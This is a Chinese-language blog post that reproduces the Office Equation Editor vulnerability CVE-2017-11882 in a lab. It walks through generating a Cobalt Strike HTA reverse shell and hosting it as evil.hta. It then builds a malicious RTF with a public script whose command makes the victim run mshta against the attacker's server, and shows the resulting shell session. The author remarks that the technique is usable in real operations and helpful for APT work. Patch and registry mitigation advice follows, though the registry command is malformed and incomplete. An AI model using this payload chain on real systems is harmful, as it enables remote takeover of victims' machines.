 ```yaml
---
categories: 漏洞复现
date: "2017-11-21T00:00:00Z"
description: 本文记录一下针对CVE-2017-11882的漏洞复现
title: CVE-2017-11882漏洞复现
url: /archivers/2017-11-21/1
---
```

本文记录一下针对CVE-2017-11882的漏洞复现
<!--more-->

* 目录
{:toc}

## 0x00 前言

参考backlion师傅的PDF，记录一下这个过程。

2017年11月14日，微软发布了11月份的安全补丁更新，其中比较引人关注的莫过于悄然修复了潜伏17年之久的Office远程代码执行漏洞（CVE-2017-11882）。该漏洞为Office内存破坏漏洞，影响目前流行的所有Office版本。攻击者可以利用漏洞以当前登录的用户的身份执行任意命令。
由于漏洞影响面较广，漏洞披露后，金睛安全研究团队持续对漏洞相关攻击事件进行关注。11月19日，监控到了已有漏洞POC在网上流传，随即迅速对相关样本进行了分析。目前该样本全球仅微软杀毒可以检测。

* 漏洞影响版本：
* Office 365
* Microsoft Office 2000      
* Microsoft Office 2003      
* Microsoft Office 2007 Service Pack 3
* Microsoft Office 2010 Service Pack 2
* Microsoft Office 2013 Service Pack 1
* Microsoft Office 2016

## 0x01 环境清单

* WindowsServer 2008 (192.168.3.114)
* Office 2007
* MAC OSX(192.168.3.106)

## 0X02 复现过程

### 使用Cobalt Strike生成hta反弹shell

![生成](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-21/2017-11-21-0x00.png)

将生成的hta文档放入WebServer根目录：http://192.168.3.106/evil.hta

我(Cobalt Strike)本地监听了一个8081端口，用来接收客户端的Shell


### 生成一个rtf/doc文档

github上已有生成脚本

`webdav_exec_CVE-2017-11882.py` 地址： http://payloads.online/tools/cve-2017-11882/webdav_exec_CVE-2017-11882.py

生成rtf文档：

```
python webdav_exec_CVE-2017-11882.py -u http://192.168.3.106/evil.hta -e "mshta http://192.168.3.106/evil.hta" -o test.rtf
!!! Completed !!!
```

最后将test.rtf在目标机器上执行 `=_=||`，其实可以实战的，对于APT的帮助很大

### 结果

目标机器上执行后，我们可以在Cobalt Strike看到来自客户端的会话

![shell](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-21/2017-11-21-0x01.png)


## 0x03 修复建议

1、微软已经对此漏洞做出了修复。

* 下载`https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11882`  更新补丁进行修补
*  开启Windows Update功能，定期对系统进行自动更新

2、由于该公式编辑器已经17年未做更新，可能存在大量安全漏洞，建议在注册表中取消该模块的注册。

* 按下Win R组合键，打开cmd.exe
* 输入以下两条命令：
`reg add  “HKLM\SOFTWARE\Microsoft\Office\Common\COM Compatibility\{0002CE02-0000-0000-C000-000000000046} ” /v “Compatibility  Flags”  /t  REG_DWORD /d    0x400`



